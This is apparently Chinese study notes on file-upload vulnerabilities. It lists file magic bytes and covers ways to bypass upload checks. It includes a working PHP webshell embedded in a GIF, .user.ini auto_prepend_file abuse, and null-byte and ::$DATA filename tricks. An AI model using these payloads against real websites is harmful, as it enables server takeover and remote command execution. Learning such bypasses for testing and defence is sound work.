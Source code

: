# 文件上传基础篇

## 文件上传漏洞原理

​    目标网站存在文件上传接口，但是对用户上传的文件没有做仔细甄别，导致黑客可以根据此功能点直接上传木马到网站服务器，造成危害



## 文件上传存在点

​	通常有头像上传，pdf上传

## 文件上传防护

​	前后端同时验证文件后缀，黑白名单，校验文件头，校验文件内容，校验mime,二次渲染

## 文件上传绕过防护

### 	前端校验：直接警用js或者修改js代码，也可以使用burp抓包修改文件名

### 	文件头校验：常见于图片上传点，服务器会检测文件类型的文件头

### 	常见文件头

```
JPEG (jpg)，                        　文件头：FFD8FF　　　　　　　　　　　　　　　文件尾：FF D9　　　　　　　　　　　　　　　
PNG (png)，                       　　文件头：89504E47　　　　　　　　　　　　　　文件尾：AE 42 60 82
GIF (gif)，                           文件头：47494638　　　　　　　　　　　　　　文件尾：00 3B                                                                 ZIP Archive (zip)，                     文件头：504B0304　　　　　　　　　　　　　　　　　　　　　　文件尾：50 4B

TIFF (tif)，                           　  文件头：49492A00　　　　　　　　　　　　　　　　　　　　　　文件尾：
Windows Bitmap (bmp)，      　  文件头：424D　　　　　　　　　　　　　　　　　　　　　　　　 文件尾：
CAD (dwg)，                        　  文件头：41433130　　　　　　　　　　　　　　　　　　　　　　文件尾：
Adobe Photoshop (psd)，          文件头：38425053　　　　　　　　　　　　　　　　　　　　　　文件尾：
Rich Text Format (rtf)，             文件头：7B5C727466　　　　　　　　　　　　　　　　　　　　  文件尾：
XML (xml)，                              文件头：3C3F786D6C　　　　　　　　　　　　　　　　　　　　 文件尾：
HTML (html)，                           文件头：68746D6C3E
Email [thorough only] (eml)，     文件头：44656C69766572792D646174653A
Outlook Express (dbx)，            文件头：CFAD12FEC5FD746F
Outlook (pst)，                         文件头：2142444E
MS Word/Excel (xls.or.doc)，      文件头：D0CF11E0
MS Access (mdb)，                    文件头：5374616E64617264204A
WordPerfect (wpd)，                  文件头：FF575043
Adobe Acrobat (pdf)，               文件头：255044462D312E
Quicken (qdf)，                         文件头：AC9EBD8F
Windows Password (pwl)，         文件头：E3828596

RAR Archive (rar)，                    文件头：52617221
Wave (wav)，                            文件头：57415645
AVI (avi)，                                 文件头：41564920
Real Audio (ram)，                     文件头：2E7261FD
Real Media (rm)，                       文件头：2E524D46
MPEG (mpg)，                           文件头：000001BA
MPEG (mpg)，                           文件头：000001B3
Quicktime (mov)，                     文件头：6D6F6F76
Windows Media (asf)，               文件头：3026B2758E66CF11
MIDI (mid)，                        文件头：4D546864
```

### MIME校验：即http数据包中的Content-Type字段，直接用burp抓包修改此字段

### 二次渲染：上传的文件被服务器端修改了，常见于头像上传

(1)上传gif图片：先将普通的gif图片上传，会被渲染，渲染之后再下载下来，与原git图片对比，找到渲染前后没有变化的位置，然后在这些位置插入一句话木马，再上传即可。

(2)上传jpg图片：这两种格式图片的二次渲染绕过要难很多很多：(索引类型图，写入 PLTE 数据块或写入IDAT数据块)，jpg(成功性不大)

### 条件竞争：当文件上传后会短暂存在然后被删除时，利用短时间大量高并发不停写入文件，文件作用为生成木马文件，当服务器未来得及删除文件时，成功创建木马文件

### 黑名单:限制一些文件后缀例如（exe,php,jsp,asp等）

#### 上传特殊可解析后缀

```
asp|asa|cer|cdx
aspx|ascx|ashx|asax|asac
php|php2|php3|php4|php5|asis|htaccess|.user.ini|phtm|phtml、pht(是否解析需要根据配置文件中设置类型来决定)
jsp|jspx|jspf
htm|html|shtml|pwml|js
vbs|asis|sh|reg|cgi|exe|dll|com|bat|pl|cfc|cfm|ini
```

#### 上传.htaccess

```
.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过 .htaccess文件，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能IIS平台上不存在该文件，该文件默认开启，启用和关闭在 httpd.conf 文件中配置。

 .htaccess 文件生效前提条件为：
mod_rewrite 模块开启
AllowOverride All
```

#### 上传.user.ini文件

```
原理：
1、.user.ini 有点像.htaccess，php运行时，会检索加载所有目录下的.ini配置文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。
2、.user.ini是一个能被动态加载的ini文件，这点和php.ini不同。也就是说修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。
利用：
上传.user.ini
auto_prepend_file=1.gif	# 要访问的文件加载之前加载，
或者
auto_append_file=1.gif	# 要访问的文件加载之后加载

上传一个包含webshell代码的1.gif
GIF98A <?php eval($_REQUEST['a']);?>

访问本目录下任意文件附带参数?a=xxx 就可以实现命令执行
?a=phpinfo(); ?a=system('whoami');
```

### 白名单：只允许规定文件后缀上传，常见头像上传（限制只能为gif,png,jpg后缀上传）

#### 图片马结合文件包含漏洞,将恶意代码放在图片马中

```
生成图片马：
制作方法： copy 1.jpg/b + 1.php/a 2.jpg      b表示二进制文件  a表示ASCII文件

也可以使用edjpgcom.exe工具

然后结合文件包含漏洞利用
```



#### 配合解析漏洞

```
IIS：
目录解析漏洞(/test.asp/1.jps)
文件名解析漏洞(test.asp;.jpg)
畸形解析漏洞（test.jpg/*.php）

Nginx：
畸形解析漏洞(test.jpg/*.php)
%00空字节代码解析漏洞
CVE-2013-4547(%20%00)

Apache:
文件名解析漏洞（test.php.owf.xdx）
```

### 利用NTFS ADS特性

![image-20240319202506540](http://111.229.225.13:81/i/2024/03/19/xhq78y-2.png)

#### 其他

```
点绕过、空格绕过、后缀双写绕过、后缀大小写绕过、%00绕过、0x00绕过

GET：
shell.php%00.jpg
POST：
（hex里面改）
shell.php%20%00.jpg
shell.php.
shell.php. .
00截断、MIME、点、空格、点空格点、::$DATA
shell.php::$DATA
shell.php 
shell.php.
shell.php. .
GET：
shell.php%00.jpg
POST：
（hex里面改）
shell.php%20%00.jpg
```

